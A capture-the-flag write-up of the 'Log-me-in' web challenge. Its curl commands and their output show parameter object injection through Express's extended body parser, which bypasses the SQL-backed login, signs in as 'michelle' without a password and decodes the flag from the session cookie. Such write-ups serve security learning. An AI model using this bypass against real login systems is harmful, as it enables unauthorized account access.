



# Log-me-in (Web)

## Introduction

This challenge comes with the following instructions:

> Log in to get the flag

> [Attachment](app.js)

> https://log-me-in.web.ctfcompetition.com/


The URL leads to this application:




We are able to login with standard `admin`/`admin` credentials:




Visiting https://log-me-in.web.ctfcompetition.com/flag displays this message:




The goal of this challenge is to find a way to sign in as Michelle.


## Observations

The login process matches this minimal cURL:

```bash
$ curl -v https://log-me-in.web.ctfcompetition.com/login -d 'username=admin' -d 'password=admin'
...
< HTTP/2 302 
< content-type: text/plain; charset=utf-8
< x-powered-by: Express
< location: /me
< vary: Accept
< set-cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIiwiZmxhZyI6IjxzcGFuIGNsYXNzPXRleHQtZGFuZ2VyPk9ubHkgTWljaGVsbGUncyBhY2NvdW50IGhhcyB0aGUgZmxhZzwvc3Bhbj4ifQ==; path=/; httponly
< set-cookie: session.sig=VT8ZiMQxGxmAu1BSzDOvO0c2AFQ; path=/; httponly
< x-cloud-trace-context: 91788d8898e58c9ae9c4811129affb6c
< date: Sun, 24 Aug 2020 19:41:42 GMT
< server: Google Frontend
< content-length: 25
< 
* Connection #0 to host log-me-in.web.ctfcompetition.com left intact
Found. Redirecting to /me
```


We observe that the `session` cookie contains the message displayed on the Flag page:

```bash
$ echo eyJ1c2VybmFtZSI6ImFkbWluIiwiZmxhZyI6IjxzcGFuIGNsYXNzPXRleHQtZGFuZ2VyPk9ubHkgTWljaGVsbGUncyBhY2NvdW50IGhhcyB0aGUgZmxhZzwvc3Bhbj4ifQ== | base64 -d
{"username":"admin","flag":"<span class=text-danger>Only Michelle's account has the flag</span>"}
```


## Exfiltration

The [app.js](app.js) attached in the description contains the same flaw as the [Pasteurize](https://github.com/weibell/ctf-google2020/tree/master/pasteurize) challenge:

```javascript
app.use(bodyParser.urlencoded({
  extended: true
}))
```

This leads to some interesting results:

```html
$ curl -v https://log-me-in.web.ctfcompetition.com/login -d 'username[x]=' -d 'password[y]='
...
<!DOCTYPE html>
<html>
...
        <div class="alert alert-danger alert-dismissible show">
                <h3>Error</h3>
                <p>Unknown error: Error: ER_BAD_FIELD_ERROR: Unknown column &#39;x&#39; in &#39;where clause&#39;</p>
                <button type="button" class="close" data-dismiss="alert">&times;</button>
        </div>
...
```

`username`, `password` and `id` appear to be valid column names.

```bash
$ curl -v https://log-me-in.web.ctfcompetition.com/login -d 'username[id]=' -d 'password[id]='
...
< set-cookie: session=eyJ1c2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJmbGFnIjoiPHNwYW4gY2xhc3M9dGV4dC1kYW5nZXI+T25seSBNaWNoZWxsZSdzIGFjY291bnQgaGFzIHRoZSBmbGFnPC9zcGFuPiJ9; path=/; httponly
...
Found. Redirecting to /me

$ echo eyJ1c2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJmbGFnIjoiPHNwYW4gY2xhc3M9dGV4dC1kYW5nZXI+T25seSBNaWNoZWxsZSdzIGFjY291bnQgaGFzIHRoZSBmbGFnPC9zcGFuPiJ9 | base64 -d
{"username":"administrator","flag":"<span class=text-danger>Only Michelle's account has the flag</span>"}
```

Note that this user `administrator` is different from `admin`.

This allows us to log in as `michelle` without providing a password and retrieving the flag from the cookie:

```bash
$ curl -v https://log-me-in.web.ctfcompetition.com/login -d 'username=michelle' -d 'password[id]='
...
< set-cookie: session=eyJ1c2VybmFtZSI6Im1pY2hlbGxlIiwiZmxhZyI6IkNURnthLXByZW1pdW0tZWZmb3J0LWRlc2VydmVzLWEtcHJlbWl1bS1mbGFnfSJ9; path=/; httponly
...
Found. Redirecting to /me

$ echo eyJ1c2VybmFtZSI6Im1pY2hlbGxlIiwiZmxhZyI6IkNURnthLXByZW1pdW0tZWZmb3J0LWRlc2VydmVzLWEtcHJlbWl1bS1mbGFnfSJ9 | base64 -d
{"username":"michelle","flag":"CTF{a-premium-effort-deserves-a-premium-flag}"}
```

Flag: `CTF{a-premium-effort-deserves-a-premium-flag}`
